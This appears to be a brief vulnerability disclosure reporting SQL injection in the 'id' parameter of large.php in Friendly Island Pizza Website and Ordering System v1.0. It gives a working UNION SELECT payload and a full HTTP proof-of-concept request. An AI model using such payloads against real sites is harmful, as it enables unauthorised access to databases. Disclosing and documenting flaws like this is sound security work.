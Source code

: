 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author:tangtangtang123456

Vulnerability File: /FriendlyIsPizzaWebsite/large.php

GET parameter 'id' exists SQL injection vulnerability

Payload:id=1 union all select null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null--

```
GET /FriendlyIsPizzaWebsite/large.php?id=1%20union%20all%20select%20null,null,null,concat(0x31323334,0x21222324,0x41424344),null,null,null,null,null-- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

The concat statement executes successfully

![image](https://github.com/tangtangtang123456/bug_report/blob/main/pictures/1.png)
